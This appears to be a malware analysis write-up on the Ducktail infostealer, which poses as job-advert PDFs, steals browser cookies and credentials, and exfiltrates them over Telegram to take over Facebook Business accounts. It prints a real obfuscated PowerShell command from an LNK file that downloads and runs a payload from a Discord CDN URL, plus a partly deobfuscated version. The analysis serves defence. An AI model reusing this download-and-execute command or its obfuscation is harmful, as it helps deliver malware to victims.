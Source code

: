 ```yaml
---
tags: Infostealers
---
```

## Analysing Ducktail Infostealer

Ducktail infostealer targets individuals and employees that may have access to a Facebook Business account.
The malware is designed to steal browser cookies and take advantage of authenticated Facebook sessions to steal information from the victim's Facebook account and ultimately hijack any Facebook Business account that the victim has sufficient access to.
In some cases, the malware is delivered to victims over Linkedin, with the user of fake recruiter accounts.
The binary is designed to use Telegram API to exfiltrate data.

## Example 1 - Binary Masquerading as Job Advertisement
This sample is taken from [Virustotal](https://www.virustotal.com/gui/file/681a9d8a02e7abacc8d5218de80f16e16c02c2b40807246aa7a45e627e35038b)

It's worth mentioning that this sample, and many others, have very minimal hits on VT, usually 0 or 1.

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/d275931e-404f-46bb-b65f-3180e1b9d5f9)

Upon execution, to the user, it appears that a PDF file is opened harmlessly.

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/c036b5c0-3dc0-409a-9374-c5f6b43ec1de)

In the background, a few things are happening.
A browser is silently executed and used to navigate to varius websites to retrieve the victims IP address.

_Evident with the following strings:_

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/081e99c9-deca-4f75-b6cf-509b313ca1bc)


A dll is dropped to the '%AppData%\Temp\.net' directory:

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/e0003384-3133-457a-bd99-c687c745ec8a)

The actually legitimate PDF file is dropped to the Temp directory:

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/73676dae-5cc4-49af-8d9a-8f46f963e529)

A screenshot of the screen at the time of execution is taken and stored in the Temp directory:

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/e885a983-b204-4a0b-b412-8721d0fa9e52)

More interestingly, the following files are collected to be exfiltrated.

_System Information:_

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/49376a22-3737-4254-b8a6-eb1a3aa57fd5)

_Credentials from Browsers:_

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/b3d63fbe-8d70-4324-9852-ca4482c108ed)

This information is again stored in the Temp directory.

Telegram is used as a means of C2 and data exfiltration, this is also evident in the strings, with Telegram URLs and API calls.


![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/39be0c4d-3c68-4ce7-b48d-74c71423d613)
![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/09f46a31-5290-4181-ae12-bc73331f76af)
![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/4dc027fc-d125-4f6e-a1c9-51c63eca739c)

From Telegram bot [atricle](https://telegrambots.github.io/book/Migration-Guide-to-Version-14.x.html)

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/2ca2c814-fcb2-4f13-a624-2c1404a80226)

There are also some interesting references to Facebook URLs within the strings:

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/6728cd25-712c-4b56-a6ff-87993575512c)

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/c5822417-b4c6-4969-b677-433c1c6e5e77)

As well as a list of hardcoded Outlook email addresses

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/edabee64-7f99-46e1-8107-119bde5b61ee)

It's assessed that these email addresses are added to the compromised Facebook Business group.

## Example 2 - LNK File, Calling out to Discord

A much more simpler example, is an lnk file which target path is to download a remote payload from Discord CDN.

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/c5a4f76a-94f8-4ee6-ad76-58483bd027f0)

```
C:\WINDOWS\system32\cmd.exe /c powershe""l""l/""W 0""1 $op='i'+''+'E'+'x';sal donke $op;$hx508wpj=donke(donke($($('(nsd88w-objsd88ct
Systsd88m.Nsd88t.Wsd88bClisd88nt).Doq82mtring(''hu8pvcdn.discordapp[.]com/attachmi47nts/1015258281561821208/1036207817209692210/conmi47thangi47o[.]jpg''.Replace(''u8pv'',''ttps://'').Replace(''i47'', ''e''))').Replace('sd88', 'e').Replace('q82m', 'wnloadS'))));exit9%ProgramFiles(x86)%\Microsoft\Edge\Application\msedge.exe
```

Slightly deobfuscated:
```
/c powershe ll/W 01 ='i'+''+'E'+'x';sal donke ;=donke(donke((new-object System.Net.WebClient).DownloadString('hu8pvcdn.discordapp[.]com/attachmi47nts/1015258281561821208/1036207817209692210/conmi47thangi47o[.]jpg'.Replace('u8pv','ttps://').Replace('i47',
'e'))));exit9%ProgramFiles(x86)%\Microsoft\Edge\Application\msedge.exe
```
We can see that PowerShell is being used to download and execute the remote payload: "hu8pvcdn.discordapp[.]com/attachmi47nts/1015258281561821208/1036207817209692210/conmi47thangi47o[.]jpg"


